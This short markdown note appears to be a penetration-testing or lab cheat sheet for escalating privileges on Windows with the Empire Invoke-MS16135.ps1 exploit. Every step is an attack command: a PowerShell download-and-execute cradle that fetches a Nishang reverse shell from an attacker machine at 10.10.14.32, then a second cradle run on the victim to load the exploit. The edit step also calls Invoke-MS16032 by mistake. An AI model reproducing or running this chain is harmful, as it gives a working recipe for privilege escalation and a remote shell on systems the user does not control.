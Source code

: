 # MS16-135 Win23k
source: https://github.com/EmpireProject/Empire/raw/master/data/module_source/privesc/Invoke-MS16135.ps1

1) Edit ps script at the end of the content to include the following command for executing exploit to trigger nishang reverse powershell (https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) which is renamed as `shell.ps1`
```powershell
Invoke-MS16032 -Command "IEX (New-Object Net.WebClient).downloadString('http://10.10.14.32/shell.ps1')"
```

2) Host this file in webserver in your kali machine, you should also host tcp reverse named 'shell.ps1'

3) In victim machine, run command :
```powershell
IEX (New-Object Net.WebClient).downloadString('http://10.10.14.32/Invoke-MS16135.ps1')
```
